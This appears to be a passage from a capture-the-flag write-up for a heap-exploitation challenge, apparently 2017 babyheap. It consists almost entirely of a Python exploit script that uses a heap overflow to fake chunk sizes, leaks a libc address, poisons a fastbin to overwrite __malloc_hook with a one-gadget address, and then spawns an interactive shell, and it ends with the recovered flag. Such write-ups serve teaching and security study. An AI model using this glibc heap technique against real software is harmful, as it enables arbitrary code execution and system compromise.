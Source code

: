 ```python
func_allocate(0x18) # 6, 0x21

func_allocate(0x118) # 7, 0x121
func_allocate(0x118) # 8, 0x121

func_free(5)
func_free(4)

payload = "\x00"*0x18
payload += p64(0x21)
payload += "\xd0"
func_fill(3, payload) # 4 fd -> 7

payload = "\x00"*0x18
payload += p64(0x21)
func_fill(6, payload) # 7 size -> 0x21

func_allocate(0x18) # 4, real_4
func_allocate(0x18) # 5, real_7

payload = "\x00"*0x18
payload += p64(0x121)
func_fill(6, payload) # 7 size -> 0x121

func_free(7)
func_dump(5) # libc_leak
real_leak = u64(s.recv(8))
real_base = real_leak - main_arena_off
real_malloc_hook = real_base + malloc_hook_off
real_one = real_base + one_off

log.info("real_base : " + hex(real_base))
log.info("real_malloc_hook : " + hex(real_malloc_hook))

func_free(2)
func_free(1)

payload = "\x00"*0x68
payload += p64(0x71)
payload += p64(real_malloc_hook - 0x13)
func_fill(0, payload)

func_allocate(0x68) # 1, real_1
func_allocate(0x68) # 2, real_hook - 0x13

payload = "\x7f\x00\x00"
payload += p64(real_one)
func_fill(2, payload)

func_allocate(0x18) # exploit!

s.interactive()
```

### flag{you_are_now_a_qualified_heap_beginner_in_2017}
